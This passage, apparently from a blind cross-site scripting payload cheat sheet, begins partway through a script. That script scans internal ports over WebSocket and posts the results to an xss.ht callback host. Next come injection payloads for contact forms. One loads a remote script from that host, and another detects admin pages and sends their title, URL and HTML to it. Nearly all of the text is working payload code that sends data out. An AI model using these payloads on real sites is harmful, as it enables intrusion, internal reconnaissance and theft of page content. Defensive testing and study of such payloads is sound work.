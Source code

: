 ```javascript

ports.forEach(port => {
    var ws = new WebSocket('ws://' + host + ':' + port);
    ws.onopen = () => {
        results.push({port: port, status: 'open'});
        ws.close();
    };
    ws.onerror = () => {
        results.push({port: port, status: 'closed'});
    };
});

setTimeout(() => {
    fetch('https://yoursubdomain.xss.ht/ports', {
        method: 'POST',
        body: JSON.stringify(results)
    });
}, 10000);
</script>
```

## Blind XSS Detection

### Email-Based Triggers
```javascript
// Payload for contact forms
"><script>
if(document.querySelector('input[type="email"]')) {
    var s = document.createElement('script');
    s.src = 'https://yoursubdomain.xss.ht/email-context';
    document.head.appendChild(s);
}
</script>

// Admin panel detection
"><script>
if(document.title.toLowerCase().includes('admin') || 
   window.location.href.includes('admin')) {
    fetch('https://yoursubdomain.xss.ht/admin-found', {
        method: 'POST',
        body: JSON.stringify({
            title: document.title,
            url: window.location.href,
            html: document.documentElement.outerHTML.substring(0, 5000)
        })
    });
}
</script>
```
